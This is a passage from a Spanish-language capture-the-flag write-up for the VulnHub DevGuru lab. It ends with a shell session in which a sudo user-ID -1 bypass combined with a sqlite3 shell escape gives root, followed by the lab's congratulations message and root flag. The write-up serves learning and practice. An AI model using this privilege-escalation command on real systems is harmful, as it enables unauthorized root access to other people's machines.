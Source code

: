 ![exploit](/assets/img/commons/vulnhub/devguru/exploit.png){: .center-image }

Listamos la root flag.

```bash
frank@devguru:~$ sudo -u#-1 /usr/bin/sqlite3 /dev/null '.shell /bin/sh'
# id
uid=0(root) gid=1000(frank) groups=1000(frank)
# cd /root
# ls
msg.txt  root.txt
# cat msg.txt

           Congrats on rooting DevGuru!
  Contact me via Twitter @zayotic to give feedback!


# cat root.txt
96440606fb88aa7497cde5a8e68daf8f
```